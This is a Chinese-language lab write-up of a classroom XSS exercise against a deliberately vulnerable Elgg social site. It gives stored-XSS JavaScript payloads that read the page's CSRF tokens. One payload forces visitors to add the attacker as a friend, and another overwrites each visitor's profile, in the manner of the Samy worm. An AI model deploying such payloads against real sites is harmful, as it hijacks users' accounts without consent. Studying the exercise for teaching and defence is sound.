








# XSS攻击

## 先尝试是否可以注入JavaScript代码

在Samy个人资料Brief description区域输入：
```javascript
<script>alert("XSS");</script>
```
当访问Samy个人主页时，都会有弹框：  


说明这个网络应用程序存在XSS漏洞。

## 实验一：通过XSS攻击成为他人的好友

攻击要实现的目标是当其他人访问Samy主页时，自动把Samy加为其好友。

### 观察所需字段

首先登录Samy账户，单击"添加好友"，把Charlie加为好友

请求url：  
```bash
http://www.xsslabelgg.com/action/friends/add?friend=46&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g&__elgg_ts=1619057435&__elgg_token=JyjS52JvJcwI4nhsiy4e_g
```
cookie浏览器会自动设置，故不用关心这个值  

!!! warning

    __elgg_ts和__elgg_token是为了应对CSRF攻击的对策，xss实验中又被打开了，故要正确设置这两个值

故主要挑战在于如何找出__elgg_ts和__elgg_token两个值。当浏览Elgg页面时，右击--View Page Source  
```javascript
<script>
var elgg = {"config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1619057910,"__elgg_token":"ILY6_jevictA27xGzCMI_g"}},"session":{"user":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:30:59+00:00","time_updated":"2021-04-22T01:55:28+00:00","url":"http:\/\/www.xsslabelgg.com\/profile\/samy","name":"Samy","username":"samy","language":"en","admin":false},"token":"WZEvmX7f1a5pubrP72LT5O"},"_data":{}};
</script>
```
可知这两个值可以通过elgg.security.token.__elgg_ts和elgg.security.token.__elgg_token这两个js变量获取。

从members页面可以看到Samy账户id为47  


### 构造添加好友请求

CSRF需要构造一个恶意网页，而XSS则是从一个Elgg页面发送请求。如果只是发送一个普通的http请求，将
导致浏览器离开当前页面从而引起用户警觉。可以使用Ajax在后台发送http请求。

```html
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/friends/add" 
                + "?friend=47" + token + ts;
  
  Ajax = new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send();
}
</script>
```

### 把恶意代码放到Samy的个人主页



!!! warning 

    这个区域编辑器默认模式支持格式化文本，会向文本添加格式数据，故要点击Edit HTML切换到明文模式。

!!! Note

    如果没有提供明文编辑器，可以使用浏览器扩展来删除HTTP请求中的格式化数据，或使用其他客户端（如curl）
    来发送请求。

### 其他人访问Samy主页就会添加他为好友

登陆alice账户，访问samy，发现samy已经在好友列表中，实验成功。


## 实验二：使用XSS攻击更改他人主页

### 观察所需字段



看到参数如下：


### 构造Ajax请求改个人信息

```html
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&description=Samy is my hero" + "&accesslevel[description]=2";
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```
再把恶意代码放入个人主页

### 其他人访问Samy主页就会更新自己的主页

登陆alice账户，访问samy主页，会发现自己的主页已经被改掉  



